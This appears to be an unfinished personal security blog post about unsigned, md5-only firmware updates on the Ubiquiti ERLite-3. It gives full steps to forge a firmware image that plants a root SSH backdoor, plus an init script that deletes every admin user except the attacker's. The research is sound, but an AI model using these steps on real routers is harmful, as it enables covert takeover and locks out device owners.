






## Table of Contents

* [What is this blog and why you should read this](#what-is-this-blog-and-why-you-should-read-this)
* [Routers are used to route](#routers-are-used-to-route)
* [How to source such routers](#how-to-source-such-routers)
* [How firmware updates work on these old routers](#how-firmware-updates-work-on-these-old-routers)
* [The Vulnerability](#the-vulnerability)
* [How to find such vulnerabilities](#how-to-find-such-vulnerabilities)
* [Exploit, Exploit, Exploit](#exploit-exploit-exploit)
  * [Thunderbird (ERLite-3)](#thunderbird-erlite-3)
  * [Niffler (GL-AR150-POE)](#niffler-gl-ar150-poe)
* [Cool...but how does it impact me? What are the likelihood of this happening to me? How do I mitigate it?](#coolbut-how-does-it-impact-me-what-are-the-likelihood-of-this-happening-to-me-how-do-i-mitigate-it)
  * [Impact](#impact)
  * [Likelihood](#likelihood)
  * [Mitigation](#mitigation)
* [Closing](#closing)

## What is this blog and why you should read this

This blog acts as a report to my first hacking project where I took pretty old but well in use SOHO routers and exploited a vulnerability where a bad actor can upload a modified firmware and the router will happily accept it as long as it passes a simple checksum. Now even though this is not any attempt to finding a novel CVE but it documents my journey during this project, this report could be useful to you if you are planning to buy one or already own one of the routers mentioned in this post or any other router that were manufactured as late as 2020 but are now discontinued. And though this class of vulnerability is well documented in embedded security research, but I could not find anyone who had specifically documented it on the ERLite-3 running `EdgeOS 3.x`, which is still receiving updates on hardware that is over a decade old. That is what makes it worth writing about. But in case you are a seasoned security researcher and were handed a link to this blog by yours truly, I will be in need of a job soon and it would be wonderful if you can read this and say "Oh my god we should hire this guy" (a man can hope). 

I have categorized this blog post into multiple parts which takes you to a journey while asking questions like what a router is, how to get a router such as the ones covered in the post, how these routers get their firmware updates, what vulnerability was found on these routers, what I did to find the vulnerability, then I will talk about how I exploited it and finally a few notes on impact and the risk of owning such a router.

Please use the table of contents if you want to skip to any specific section!
## Routers are used to route

Routers are just small, low powered computers that are designed to forward data packets between computer networks. They do so by reading the destination IP address on incoming data packets and consult an internal routing table to determine the fastest path forward. You can assign IP addresses to your local endpoints (laptops, TV, smart home appliances etc.) using these routers and they can either be static meaning you decide what you want their address to be and you manually configure it or you can use something called a DHCP server to automatically assign IP addresses. They can also provide some level of security too, filtering out unwanted or malicious data traffic before it can reach your personal devices.

## How to source such routers

I did not buy my routers. They were given to be by a friend of mine long time ago and they were just lying around. If you want to want to buy some deprecated routers, they are widely available in second hand market (Ebay, thrift stores, flea markets etc) and since they do come really cheap so for someone wants to try home labbing these products are really good. 

For this project I used the following two routers:
1. Ubiquiti ERLite-3 (code named Thunderbird)
2. GL-iNet GL-AR150-POE (code named Niffler)

  
Image: Listings on `ebay.com` for the `ERLite-3` router

It is worth noting that these are not the same routers that most people have at home. The ERLite-3 is a managed router aimed at small businesses, homelabbers, and IT professionals, the kind of device you would find in a small office network or a technically inclined person's homelab rather than plugged in behind a couch. This matters because the people running these are more likely to be managing multiple devices, pushing firmware updates remotely, and operating in environments where an insider threat or supply chain attack would be a much more realistic concern.
## How firmware updates work on these old routers

  
Image: Flashing the firmware

There is a pretty common way for these old routers to get firmware updates. For whatever router you have, you go to their website and look for your exact router model. Now from this website you just download the update which would be mostly in the form of a tarball. A tarball is just a `.tar` file that is uncompressed group of files and directories that can handle both symlinks and hardlinks, hence preserving the structure of the original file system. Since these files are completely uncompressed, to reduce disk space and bandwidth they can be compressed using other compression system resulting into other file extensions. Some common tar + compression file types are listed below:

| Extension | What It Means | Characteristics |
| :--- | :--- | :--- |
| **`.tar`** | Standard Archive | No compression; fast to pack and unpack. |
| **`.tar.gz`** or **`.tgz`** | Compressed with Gzip | The most common variant; fast compression speed. |
| **`.tar.bz2`** or **`.tbz2`** | Compressed with Bzip2 | Slower to compress, but creates smaller files than Gzip. |
| **`.tar.xz`** or **`.txz`** | Compressed with Xz | Slowest compression speed, but yields the smallest file sizes. |

Once downloaded they can be installed either by using the webUI interface for that specific router (usually visited by typing the internal IP address in a browser like `http://192.168.1.1`) or by using CLI where you would use something like `scp` to transfer the firmware update package to the router and then using `ssh` to get a shell on the system. Then in the shell a command like `add system image <downloaded_image_name>` will install the update. The updater would unpack the tarball, compare with the `md5sum` of the `.tmp` (image file) with an included `.md5` hash file, and if they match it would go on and happily do its job.

Since these firmware update images are a complete root file system while updating the system just replace the older file system with an entirely new one. So to carry over the older configurations the config section remains separated from the `rootfs` and implements the changes after boot thus making firmware updates really easy. Now this might be a bit off topic and will not be used in this hack but wanted to mention how these config files are interpreted by different firmware versions on the ERLite-3 routers as understanding these small things gave me a good idea of how the system works and thus gives me a confidence on my work and might have a similar effect on you too. It is completely normal for companies to make new and better ways to write config files for numerous reasons. So to read these config files they also need to change the mechanism to read and implement the configurations. To achieve this backward compatibility, the thunderbird router stores upgrading and downgrading scripts in `/opt/vyatta/etc/config-migrate/migrate` directory and uses them to change the config files as needed.

Directory tree of the migrate scripts folder
```
┌──(kali㉿kali)-[~/projects/prime/rootfs/opt/vyatta/etc/config-migrate/migrate]
└─$ tree                                                                                                                                                                                                                                  
.
├── cluster
│   ├── 0-to-1
│   └── 1-to-0
├── config-management
│   ├── 0-to-1
│   └── 1-to-0
├── content-inspection
│   ├── 0-to-1
│   ├── 1-to-0
│   ├── 1-to-2
│   ├── 2-to-1
│   ├── 2-to-3
│   └── 3-to-2
├── dhcp-relay
│   ├── 0-to-1
│   └── 1-to-0
├── dhcp-server
│   ├── 0-to-1
│   ├── 1-to-0
│   ├── 1-to-2
│   ├── 2-to-1
│   ├── 2-to-3
│   ├── 3-to-2
│   ├── 3-to-4
│   ├── 4-to-3
│   ├── interface_to_subnet.pl
│   └── subnet_to_interface.pl
├── firewall
│   ├── 0-to-1
│   ├── 1-to-0
│   ├── 1-to-2
│   ├── 2-to-1
│   ├── 2-to-3
│   ├── 3-to-2
│   ├── 3-to-4
│   ├── 4-to-3
│   ├── 4-to-5
│   └── 5-to-4
├── gpon
│   ├── 0-to-1
│   ├── 1-to-2
│   └── 2-to-1
├── ipsec
│   ├── 1-to-2
│   ├── 2-to-3
│   ├── 3-to-2
│   ├── 3-to-4
│   ├── 4-to-3
│   └── 4-to-5
├── management-interface
│   └── 0-to-1
├── nat
│   ├── 0-to-1
│   ├── 1-to-0
│   ├── 1-to-2
│   ├── 2-to-1
│   ├── 2-to-3
│   └── 3-to-2
├── qos
│   ├── 0-to-1
│   └── 1-to-0
├── quagga
│   ├── 0-to-1
│   ├── 1-to-0
│   ├── 1-to-2
│   └── 2-to-1
├── serial
│   ├── 0-to-1
│   ├── 1-to-0
│   ├── 1-to-2
│   ├── 2-to-1
│   ├── 2-to-3
│   └── 3-to-2
├── system
│   ├── 0-to-1
│   ├── 1-to-0
│   ├── 1-to-2
│   ├── 2-to-1
│   ├── 2-to-3
│   ├── 3-to-2
│   ├── 3-to-4
│   ├── 4-to-3
│   ├── 4-to-5
│   └── 5-to-4
├── ubnt-l2tp
│   ├── 0-to-1
│   └── 1-to-0
├── ubnt-unms
│   └── 1-to-2
├── ubnt-util
│   └── 0-to-1
├── vyatta-netflow
│   ├── 0-to-1
│   └── 1-to-0
├── wanloadbalance
│   ├── 1-to-2
│   └── 2-to-3
├── webgui
│   ├── 0-to-1
│   └── 1-to-0
├── webproxy
│   ├── 0-to-1
│   └── 1-to-0
└── zone-policy
    ├── 0-to-1
    └── 1-to-0

23 directories, 84 files

```

So let's take an example of the firewall directory here which has the following scripts:
```
├── firewall
│   ├── 0-to-1
│   ├── 1-to-0
│   ├── 1-to-2
│   ├── 2-to-1
│   ├── 2-to-3
│   ├── 3-to-2
│   ├── 3-to-4
│   ├── 4-to-3
│   ├── 4-to-5
│   └── 5-to-4
```

If the current version of the firmware is 5 and I did not update the router since version 2, then it would run the following scripts in order to migrate the firewall configurations: `2-to-3` -> `3-to-4` -> `4-to-5` which would migrate the necessary information and will now be read by the latest mechanism. The framework also provides a way to downgrade the config files by using scripts like `1-to-0`, `2-to-1`, `3-to-2` etc.

## The Vulnerability

Well all is fine but did you notice something? The updater took the image, compared the **included** md5sum of the image with one calculated live and moves on to replace the **ENTIRE** file system...just like that. There is no cryptographic check too verify file's authenticity and integrity and since the `md5sum` file is included in the update package, it makes it easy for an attacker to make changes to the firmware and update the MD5 hash with it. This would allow the attacker to do whatever they want to do with the router since they have access to a static version of the entire root file system and the kernel which can then be forged into a legit looking firmware update package. And this problem still persists in the latest firmware for the Thunderbird router which got a surprise software update just last year.

## How to find such vulnerabilities

I found this vulnerability in both the routers I had available to me and for me the easiest way to know if this vulnerability was present in the router was to just check the contents of the latest firmware. Ubiquit's ERLite-3 router was a `.tar` archive, which can be expanded using the command `tar -xf <firmware img name>`.  

  
Image: Contents of the tarball

The main files in the firmware package are the `squashfs.tmp` and `vmlinux.tmp` which are the root file system and a kernel image respectively. The respective `.tmp.md5` files are the `md5sum` files used to verify the integrity. The remaining files are the version.tmp which simply holds the current version of the firmware (`Version: v3.0.1.5862409.250924.1407`) and the `compat` file which contains `20002:7` on the ERLite-3 and is checked before installation to make sure the image is meant for this specific hardware. It is worth noting that since both of these are plaintext files inside the same unsigned tarball, an attacker can modify them freely, the version.tmp to avoid version conflicts during flashing and the compat file to potentially target a different hardware model entirely. Even though this blog mainly focuses on tampering with `squashfs.tmp` and `squashfs.tmp.md5`, it is worth noting that other files in the same unsigned tarball like the kernel image file `vmlinux.tmp`, the plaintext `compat` and `version.tmp` files are equally at risk of being forged due to the same reason.

Extracting the file system from the `squashfs` file (a compressed, read-only file system for Linux that packs files, directories, and inodes into a single efficient file) using: `unsquashfs -d rootfs squashfs.tmp`, we get our first access to the root file system. Now to try and find a upgrade script I used different `find` and the one that worked was `find ./ -name *upgrade*`.

```
┌──(root㉿kali)-[/home/kali/projects/prime/rootfs]
└─# find ./ -name *upgrade*
./opt/vyatta/share/vyatta-op/templates/show/version/upgraded
./lib/systemd/system/apt-daily-upgrade.service
./lib/systemd/system/ubnt-upgrade.service
./lib/systemd/system/apt-daily-upgrade.timer
./etc/systemd/system/timers.target.wants/apt-daily-upgrade.timer
./var/lib/systemd/deb-systemd-helper-enabled/apt-daily-upgrade.timer.dsh-also
./var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/apt-daily-upgrade.timer
./usr/bin/ubnt-upgrade-boot
./usr/bin/ubnt-upgrade.e101
./usr/bin/ubnt-upgrade.e102
./usr/bin/ubnt-upgrade
./usr/share/bash-completion/completions/upgradepkg
./usr/share/bash-completion/completions/portupgrade
```

where the file `/usr/bin/ubnt-upgrade` stood out as a default upgrade script with `e101` and `e102` looks more hardware specific scripts. We needed to find this script to be sure that our theory of weak verification is correct since there could have been a case where ubiquiti's public key was baked into the script and since changing that would not be fruitful the entire hack would have failed. So looking through the `ubnt-upgrade` script the following section was clearly what was handling the verification:

```
echo_status 'Checking upgrade image... '
if [ ! -f $MNT_DIR/$T_KNAME ] || [ ! -f $MNT_DIR/$T_KNAME.md5 ] \
   || [ ! -f $ROOT_DIR/$T_RNAME ] || [ ! -f $ROOT_DIR/$T_RNAME.md5 ] \
   || [ ! -f $ROOT_DIR/$T_VNAME ]; then
    echo 'Invalid image. Upgrade Failed.'
    exit 1
fi

check_md5 ()
{
    local file="$1"
    local sum1=$(md5sum "$file" | cut -d ' ' -f 1)
    local sum2=$(cat "$file.md5")
    if [ "$sum1" != "$sum2" ]; then
        return 1
    fi
    return 0
}

if ! (check_md5 "$MNT_DIR/$T_KNAME" \
      && check_md5 "$ROOT_DIR/$T_RNAME") >>$LOG 2>&1; then
    echo 'Invalid checksum. Upgrade Failed.'
    exit 1
fi
echo_done
```

The script checks if certain variables like `T_KNAME`, `T_RNAME`, `T_VNAME` which might correspond to kernel name, rootfs name and version name respectively exists or not, then moves on to compare the md5 hashes in the function `check_md5()`. If in case the checksum comparison would fail it would show a message `Invalid checksum. Upgrade Failed.` otherwise it would move on to upgrading the firmware with no further checks for tampering. This now converts our earlier hypothesis into a fact that the verification of files are just limited to a simple checksum match.

  
Image: Static root file system of the Thunderbird router

[add gl-inet part here]

## Exploit, Exploit, Exploit

 The exploitation was supposed to be a lot more fun until I ended up bricking one of the routers. So for now the PoC remains simple but still powerful. 

### Thunderbird (ERLite-3)

 Starting off with the Thunderbird router. The main problem that I faced while working on this was to understand which sections of the file system will persist my changes and which sections wouldn't since the files that manage the backward compatibility (`/opt/vyatta/etc`) are also responsible to carry forward the configurations from older firmware to the new one. Since we are on this topic it is also note worthy that these automated scripts are also responsible to set up the router when it is first booted. So the places where we can implement our change are the ones that are not touched by the `vyatta` automations. So from further enumerating the system, I was certain about the few places that are regenerated by `vyatta` using the config file which is separate from rootfs and the kernel, these include but are not limited to, `/etc/shadow`, `/etc/hosts`, `authorized_keys` for configured users (like the default `ubnt` user), `sshd_config` etc.

  
Image: `/home/ubnt/.ssh/authorized_keys` automatically generated by vyatta configurations comment on a live router

Eg: The vyatta configuration script used to setup the router at first boot
```
firewall {
    all-ping enable
    broadcast-ping disable
    ipv6-receive-redirects disable
    ipv6-src-route disable
    ip-src-route disable
    log-martians enable
    ipv6-name WANv6_IN {
        default-action drop
        description "WAN inbound traffic forwarded to LAN"
        enable-default-log
        rule 10 {
            action accept
            description "Allow established/related sessions"
            state {
                established enable
                related enable
            }
        }
        rule 20 {
            action drop
            description "Drop invalid state"
            state {
                invalid enable
            }
        }
    }
    ipv6-name WANv6_LOCAL {
        default-action drop
        description "WAN inbound traffic to the router"
        enable-default-log
        rule 10 {
            action accept
            description "Allow established/related sessions"
            state {
                established enable
                related enable
            }
        }
        rule 20 {
            action drop
            description "Drop invalid state"
            state {
                invalid enable
            }
        }
        rule 30 {
            action accept
            description "Allow IPv6 icmp"
            protocol ipv6-icmp
        }
        rule 40 {
            action accept
            description "allow dhcpv6"
            destination {
                port 546
            }
            protocol udp
            source {
                port 547
            }
        }
    }
    name WAN_IN {
        default-action drop
        description "WAN to internal"
        rule 10 {
            action accept
            state {
                established enable
                related enable
            }
            description "Allow established/related"
        }
        rule 20 {
            action drop
            state {
                invalid enable
            }
            description "Drop invalid state"
        }
    }
    name WAN_LOCAL {
        default-action drop
        description "WAN to router"
        rule 10 {
            action accept
            state {
                established enable
                related enable
            }
            description "Allow established/related"
        }
        rule 20 {
            action drop
            state {
                invalid enable
            }
            description "Drop invalid state"
        }
    }
    options {
        mss-clamp {
            mss 1412
        }
    }
    receive-redirects disable
    send-redirects enable
    source-validation disable
    syn-cookies enable
}
interfaces {
    ethernet eth0 {
        address 192.168.1.1/24
        poe {
            output off
        }
    }
    ethernet eth1 {
        address dhcp
        poe {
            output off
        }
        firewall {
            in {
                ipv6-name WANv6_IN
                name WAN_IN
            }
            local {
                ipv6-name WANv6_LOCAL
                name WAN_LOCAL
            }
        }
    }
    ethernet eth2 {
        poe {
            output off
        }
    }
    ethernet eth3 {
        poe {
            output off
        }
    }
    ethernet eth4 {
        poe {
            output off
        }
    }
    switch switch0 {
    }
    loopback lo {
    }
}

service {
    gui {
    }
    unms {
    }
}

system {
    host-name EdgeRouter-PoE-5-Port
    login {
        user ubnt {
            authentication {
                encrypted-password "$1$zKNoUbAo$gomzUbYvgyUMcD436Wo66."
            }
            level admin
        }
    }
    ntp {
        server 0.ubnt.pool.ntp.org {
        }
        server 1.ubnt.pool.ntp.org {
        }
        server 2.ubnt.pool.ntp.org {
        }
        server 3.ubnt.pool.ntp.org {
        }
    }
    syslog {
        global {
            facility all {
                level notice
            }
            facility protocols {
                level debug
            }
        }
    }
}


/* Warning: Do not remove the following line. */
/* === vyatta-config-version: "cron@1:vrrp@1:dhcp-relay@1:ubnt-udapi-server@1:webgui@1:nat@3:ubnt-l2tp@1:quagga@2:vyatta-netflow@1:suspend@1:firewall@5:ipsec@5:config-management@1:webproxy@1:zone-policy@1:dhcp-server@4:ubnt-unms@2:qos@1:system@5:ubnt-pptp@1:ubnt-util@1:conntrack@1" === */

```

Notice how it sets up the network interfaces, the firewall rules for both ipv4 (`name`) and IPv6 (`ipv6-name`).

But after much trial and error, and a lot of back and forth of me making changes, flashing firmware, getting disappointed, it was pretty clear that the `/root` directory was safe from getting changed and hence it brought an instant idea of uploading a public key for ssh connection directly to root. So I created the public-private key pair using just the command `ssh-keygen` which would automatically default to `ed25519` algorithm for key generation, kept the private key and added the public key to the file `/root/.ssh/authorized_keys` on the static rootfs. 

```
┌──(root㉿kali)-[/home/kali/projects/prime/rootfs]
└─# cat ./root/.ssh/authorized_keys 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPxt7kxSqgbmOjbekFoDf6wWJi3BhN1cOdHaO4UPQVUx kali@kali
```

after this followed some simple steps to repack the image:
1. Note compression used and the block size using the command `sudo unsquashfs squashfs.tmp` (where squashfs.tmp is the original image file)
2. repack using `sudo mksquashfs squashfs-root squashfs.tmp -comp xz -b 1048576 -noappend` (where `-comp` and `-b` are compression type and block size respectively)
3. regenerate the md5 sum, `md5sum squashfs.tmp | awk '{print $1}' > squashfs.tmp.md5`
4. Re-tar with root ownership, `tar --format=gnu --owner=0 --group=0 -cf modded.tar vmlinux.tmp vmlinux.tmp.md5 squashfs.tmp squashfs.tmp.md5 version.tmp compat`
	1. root ownership is important since the upgrade script requires the tarball to have `uid==gid==0` 
	2. when I attempted the first time, the `uid` was `1000` which gave the error `cannot change ownership to uid 1000` when trying to flash the modded firmware.

>An important thing to keep in mind (from my own experience): please make sure that the md5sum of the `*.tar` file remains **constant** along the entire transfer path from your work machine to router adjacent machine, thus making sure that the modded file remains unchanged.

  
Image: The router accepted the modded tarball

So, now when testing the modded firmware, I saw that the authorized_keys file exists with the right pub_key and yet I was not able to connect to ssh via the `root` user. For me this problem existed because of the line `PermitRootLogin no` in the file `/etc/ssh/sshd_config` on the live router. Simply trying to change the line to `PermitRootLogin yes` on the static file won't work since this is one of those files that are maintained by `vyatta` configurations. I first saw a glimpse of it when trying to find the location of the `sshd_config` file

```
┌──(root㉿kali)-[/home/kali/projects/prime/rootfs]
└─# find ./ -name ssh*                                                                                                                                                                                                                   
./opt/vyatta/etc/ssh
./opt/vyatta/etc/ssh/sshd_config     <-------------------------------------------------------- Location A
./opt/vyatta/etc/default/ssh
./opt/vyatta/share/vyatta-cfg/templates/service/ssh
./opt/vyatta/share/vyatta-cfg/templates/service/ssh-recovery
./opt/vyatta/share/vyatta-op/templates/show/ssh-recovery
./lib/systemd/system/ssh.socket
./lib/systemd/system/ssh.service
./lib/systemd/system/ssh@.service
./etc/ssh
./etc/ssh/sshd_config                 <-------------------------------------------------------- Location B
./etc/ssh/ssh_config.d
./etc/ssh/sshd_config.d
./etc/ssh/ssh_config
./etc/init.d/ssh
./etc/systemd/system/multi-user.target.wants/ssh.service
./etc/systemd/system/sshd.service
./etc/pam.d/sshd
./etc/default/ssh
./var/lib/systemd/deb-systemd-helper-enabled/multi-user.target.wants/ssh.service
./var/lib/systemd/deb-systemd-helper-enabled/ssh.socket.dsh-also
./var/lib/systemd/deb-systemd-helper-enabled/ssh.service.dsh-also
./var/lib/systemd/deb-systemd-helper-enabled/sshd.service
./var/lib/dpkg/info/ssh.postrm
./var/lib/dpkg/info/ssh.prerm
./var/lib/dpkg/info/ssh.preinst
./var/lib/dpkg/info/ssh.md5sums
./var/lib/dpkg/info/ssh.list
./var/lib/dpkg/info/ssh.postinst
./usr/bin/ssh-copy-id
./usr/bin/ssh-argv0
./usr/bin/ssh
./usr/bin/ssh-recovery
./usr/bin/ssh-keyscan
./usr/bin/ssh-agent
./usr/bin/ssh-add
./usr/bin/ssh-keygen
./usr/lib/apt/methods/ssh
./usr/lib/openssh/ssh-sk-helper
./usr/lib/openssh/ssh-pkcs11-helper
./usr/lib/openssh/ssh-session-cleanup
./usr/lib/openssh/ssh-keysign
./usr/lib/systemd/user/graphical-session-pre.target.wants/ssh-agent.service
./usr/lib/systemd/user/ssh-agent.service
./usr/sbin/sshd
./usr/share/bash-completion/completions/ssh-copy-id
./usr/share/bash-completion/completions/sshow
./usr/share/bash-completion/completions/ssh
./usr/share/bash-completion/completions/ssh-add
./usr/share/bash-completion/completions/sshmitm
./usr/share/bash-completion/completions/sshfs
./usr/share/perl5/URI/ssh.pm
./usr/share/openssh/sshd_config
./usr/share/openssh/sshd_config.md5sum

```

notice that location A has the same file as location B but just inside the `/etc/vyatta` directory, and when we compare this file to the one running on the router, they came out exactly the same. This indicated that some `vyatta` script is simply copying the file and putting it inside `/etc/ssh` hence making any changes made by us to the static version of that file obsolete. This is then further strengthened by the following three excerpts from the file `opt/vyatta/sbin/rl-system.init`, 

```
┌──(root㉿kali)-[/home/kali/projects/prime/rootfs]
└─# sudo grep -A 1 'sshd_config' opt/vyatta/sbin/rl-system.init                                                                                                                                                                           
   for f in securetty ssh/sshd_config default/ssh; do
      cp -pf ${vyatta_sysconfdir}/$f /etc/$f
```

```
┌──(root㉿kali)-[/home/kali/projects/prime/rootfs]
└─# sudo grep -A 1 'vyatta_sysconfdir' opt/vyatta/sbin/rl-system.init                                                                                                                                                                     
: ${vyatta_sysconfdir:=${vyatta_prefix}/etc}

--
      cp -pf ${vyatta_sysconfdir}/$f /etc/$f
   done
```

```
┌──(root㉿kali)-[/home/kali/projects/prime/rootfs]
└─# sudo grep -A 1 'vyatta_prefix' opt/vyatta/sbin/rl-system.init                                                                                                                                                                     
: ${vyatta_prefix:=/opt/vyatta}
: ${vyatta_bindir:=${vyatta_prefix}/bin}
: ${vyatta_sbindir:=${vyatta_prefix}/sbin}
: ${vyatta_sysconfdir:=${vyatta_prefix}/etc}

```

where the lines `for f in securetty ssh/sshd_config default/ssh; do` and `cp -pf ${vyatta_sysconfdir}/$f /etc/$f` show that the file sshd_config is being transferred from vyatta's configuration directory to router's main `/etc` directory (`${vyatta_sysconfdir}/$f` -> `${vyatta_sysconfdir}/sshd_config` -> `${vyatta_prefix}/etc/config` -> `/opt/vyatta/etc/sshd_config`)

  
Image: `Permitrootlogin` value does not persist in the live image (`yes` -> `no`)

So making the change `PermitRootLogin yes` to the file `/opt/vyatta/etc/sshd_config` finally allowed me to connect the router using root user, and hence we have a backdoor to the router with root privileges!

  
Image: Logged in as root, hence the permitrootlogin persisted

  
Image: More solid proof

Now this is where I thought I could do a lot more fun stuff since I now had a better understanding of what goes where. I wanted to do the following things in addition to having a backdoor:
1. Restrict/Delete any human made user on the router
2. Direct all traffic to a locally hosted web page which would show a funny video

But I could not have been more wrong, while attempting to do the first step (which I think would have succeeded if not for the dumb thing that happened) at some step of editing the file system or re flashing it on the router the permissions for two files `/root/.ssh` and `/usr/bin/sudo`. Maybe more but these two are the ones I checked since they mattered the most to me, `/root/.ssh` gave me root backdoor to the router and now has `uid=1000` making `ssh root@192.168.1.1` unusable and then the `/usr/bin/sudo` which needs to have `uid=0` for the `sudo` command to work and it is also now set to `1000`. Still there is a way to undo all of this and that is UART recovery.

When a router gets into a state where every software path to root is broken, the only way out is to go below the software entirely. Every router PCB has a few exposed pins that give you a direct serial connection to the processor itself, and by connecting a cheap USB adapter to those pins we can watch and interact with the boot process before Linux even starts. The bootloader (U-Boot on the ERLite-3) prints messages and waits a few seconds before handing off to the kernel, and if we hit a key during that window you get a shell at the bootloader level. From there we can pass an extra argument to the kernel telling it to run `/bin/sh` as its very first process instead of the normal init system, which drops us into a root shell before permissions, login, Vyatta, or anything else has had a chance to load. We are root  because we are PID 1 and there is nothing above us. From that shell I can fix whatever was broken, sync, reboot, and the machine comes back up normally. It is the universal escape hatch on embedded Linux devices precisely because it bypasses every layer of software that could be broken, and it cannot be blocked by anything short of the hardware itself being dead. And I'll be attempting this whenever time permits me next.

But again as I said I think I would have succeeded in restricting/deleting any and all human made users on the router, because I was making a script in the `/etc/init.d` directory and somehow get it to execute at boot every time. I was done making the script and was doing back and forth to find a way to make it run on boot. Maybe someday and here is the script that I made to remove any user that is configured in the `/config/config.boot` file and only leave my root ssh backdoor:

```
┌──(root㉿kali)-[/home/kali/projects/prime/rootfs]
└─# cat etc/init.d/rmlocalusers                                                                                                                                                                                                           
#!/bin/bash
### BEGIN INIT INFO
# Provides:          remove-local-users
# Required-Start:    vyatta-router
# Default-Start:     2 3 4 5
# Short-Description: remove all Vyatta-managed users, keep root
### END INIT INFO

MARKER=/config/.rmlocalusers
CONFIG=/config/config.boot

[ -f "$MARKER" ] && exit 0
[ -f "$CONFIG" ] || exit 0

sleep 15

# Safety: root SSH must actually be working before we nuke other users
if [ ! -s /root/.ssh/authorized_keys ]; then
    logger -t rmlocalusers "[ABORT] no root authorized_keys"
    exit 0
fi

if ! /usr/sbin/sshd -T 2>/dev/null | grep -qE '^permitrootlogin (yes|prohibit-password|without-password)'; then
    logger -t rmlocalusers "[ABORT] PermitRootLogin not permissive"
    exit 0
fi

# Get user list from Vyatta itself, not by parsing config.boot
users=$(awk '/system {/,/^}/' "$CONFIG" | awk '/login {/,/^    }/' | awk '/^        user [^ ]+ \{/ {print $2}')

if [ -z "$users" ]; then
    logger -t rmlocalusers "no users found in config"
    touch "$MARKER"
    exit 0
fi

logger -t rmlocalusers "will remove: $users"

if [ -z "$users" ]; then
    logger -t rmlocalusers "no users to remove"
    touch "$MARKER"
    exit 0
fi

logger -t rmlocalusers "removing users: $users"

# Build and run the config transaction
{
    source /opt/vyatta/etc/functions/script-template
    configure
    for u in $users; do
        # SAFETY: skip root if present in pulled users list
        [ "$u" = "root" ] && continue
        delete system login user "$u"
    done
    commit && save
}
rc=$?

if [ $rc -eq 0 ]; then
    touch "$MARKER"
    logger -t rmlocalusers "done"
else
    logger -t rmlocalusers "failed, will retry next boot"
fi
```

